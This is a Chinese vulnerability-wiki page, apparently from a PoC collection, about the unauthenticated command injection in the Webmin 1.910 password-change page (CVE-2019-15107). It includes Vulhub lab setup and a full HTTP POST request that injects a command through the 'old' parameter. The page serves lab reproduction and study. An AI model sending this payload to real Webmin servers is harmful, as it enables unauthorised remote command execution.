


# Webmin 远程命令执行漏洞 CVE-2019-15107

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Lab1.910;password-change settings/package provenance unstated;request selects nonexistentLinux user
- 证据范围：Adds important user-branch explanation absent46;same source narrative as49

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- No full affected/fixed ranges and affected distribution/config prerequisites
- Code path explanation should be reconciled with46's wuser snippet
- Source correction explicit;preserve when merging same-vulnerability material
- Pinned vulnerableVulhub environment not linked

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

参考链接：

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## 环境搭建

Vulhub执行如下命令，启动webmin 1.910：

```shell
docker-compose up -d
```

执行完成后，访问`https://your-ip:10000`，忽略证书后即可看到webmin的登录页面。



## 漏洞复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令`id`：

```http
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```




---

> 来源：Threekiii/Awesome-POC
